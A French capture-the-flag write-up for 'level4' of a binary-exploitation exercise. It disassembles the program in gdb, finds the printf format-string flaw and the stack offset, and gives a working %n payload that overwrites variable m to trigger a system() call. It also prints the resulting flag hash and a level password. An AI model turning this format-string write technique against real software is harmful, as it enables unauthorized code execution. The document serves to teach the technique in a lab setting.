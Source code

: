 # LEVEL 4

On se connecte sur le level4, ou se trouve un **binaire** <code>level4</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level4 -q
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
(gdb) > disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   %ebp
   0x08048458 <+1>:     mov    %esp,%ebp
   0x0804845a <+3>:     sub    $0x218,%esp
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
(gdb) > disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```

Ici, il est impossible de faire un **buffer overflow** avec le fgets car il prend une taille plus petite que la taille max de notre variable:
> <pre><code>char str[520];
> fgets(str, 512, stdin);</code></pre>

Cependant on peut faire un **Format String Exploit** avec le **printf** comme pour **level3**

On commence par chercher l'**Offset**:

```bash
 > python -c 'print "BBBB" + "|%08x" * 20' | ./level4
BBBB|b7ff26b0|bffff794|b7fd0ff4|00000000|00000000|bffff758|0804848d|bffff550|00000200|b7fd1ac0|b7ff37d0|42424242|3830257c|30257c78|257c7838|7c783830|78383025|3830257c|30257c78|257c7838
```

> Ici le 08 nous permet de forcer l'affichage d'une adresse
>
> Et le 42424242 représente notre B en ASCII

On cherche par la suite l'adresse de **m**:

```gdb
(gdb) i variables
All defined variables:

Non-debugging symbols:
0x08048588  _fp_hw
0x0804858c  _IO_stdin_used
0x080486f8  __FRAME_END__
0x080496fc  __CTOR_LIST__
0x080496fc  __init_array_end
0x080496fc  __init_array_start
0x08049700  __CTOR_END__
0x08049704  __DTOR_LIST__
0x08049708  __DTOR_END__
0x0804970c  __JCR_END__
0x0804970c  __JCR_LIST__
0x08049710  _DYNAMIC
0x080497dc  _GLOBAL_OFFSET_TABLE_
0x080497fc  __data_start
0x080497fc  data_start
0x08049800  __dso_handle
0x08049804  stdin@@GLIBC_2.0
0x08049808  completed.6159
0x0804980c  dtor_idx.6161
0x08049810  m
```

> m = 0x08049810

On sait que l'on cherche 16930116 (0x1025544), donc il nous manque 16930112

```bash
> (python -c 'print "\x10\x98\x04\x08" + "%16930112d" "%12$n"') | ./level4
...
...
-1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```


For download :
<pre><code>scp -P4242 level4@IP:level4 .</code></pre>
> Password : 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

